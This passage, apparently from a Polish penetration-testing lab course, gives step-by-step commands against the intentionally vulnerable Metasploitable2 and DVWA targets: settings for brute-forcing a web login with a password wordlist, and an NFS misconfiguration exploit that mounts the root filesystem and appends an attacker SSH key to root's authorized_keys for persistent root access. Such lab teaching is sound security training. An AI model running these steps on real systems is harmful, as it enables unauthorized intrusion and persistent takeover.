              - Zaznacz box: `Show Attempts`
    - **Passwords** 
            -  Username: `admin`
             - Password List: `/use/share/wordlists/metasploit/unix_passwords.txt`
                - Zaznacz box: `Try login as password, Try empty password`
    - **Tunning** 
             -  Number of Tasks: `1`
             - Zaznacz box: `Exit after first found pair`
    - **Specific**
            - http/https url: `/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login Failed`
    - **Start**
            - Klikamy `start`. W oknie wyświetlane będą kolejne próby aż do momentu znalezienia prawidłowego hasła.


## Ćwiczenie 6 – Nieprawidłowa konfiguracja usługi
>**Zasoby:**
Kali Linux , metasploitable2

Jednym z najczęstszych błędów popełnianych przez administratorów systemów Linux jest błędna konfiguracja usług które są uruchomione na serwerze.
W tym ćwiczeniu wykorzystamy błąd w konfiguracji usługi NFS, umożliwiający wydostanie sie z poza udostępnionego udziału.

* Z poziomu systemu Kali uruchamiamy nmap w celu znalezienia otwartego portu z usługą NFS na systemie ofiary:
`# nmap –p0-65535 <metasploitable2 IP>`
* Gdy widzimy działającą usługę NFS, wyświetlamy listę wszystkich katalogów wyeksportowanych z maszyny za pomocą polecenia **showmount**:
`# showmount –e <metasploitable2 IP>`
* W przypadku gdy dostaniemy odpowiedź:
`/*`
Oznacza to że główne drzewo plików (/) jest udostepnione wszystkim (*).
* Skoro mamy dostęp do całego systemu plików, dodamy własny klucz SSH by w każdym momencie móc się zalogować do systemu. W tym celu tworzymy katalog tymczasowy w którym zamontujemy udział i dokleimy własny klucz ssh do pliku authorized_keys:
    ```
    # mkdir /tmp/mnt
    # mount –t nfs –o nolock <metasploitable2 IP>:/ /tmp/mnt
    # cat .ssh/id_rsa.pub >> /tmp/mnt/root/.ssh/authorized_keys
    ```
* Teraz możemy sprawdzić połączenie:
`# ssh <metasploitable2 IP>`
* Gdy mamy juz powłokę z uprawnianiami roota, jesteśmy panem tego systemu.

Sprawdź również udostępniony udział nfs za pomocą skryptu nmap **nfs-showmount**.

## Ćwiczenie 7 – Łamanie haseł w systemach Linux
>**Zasoby:**
Kali Linux , metasploitable2
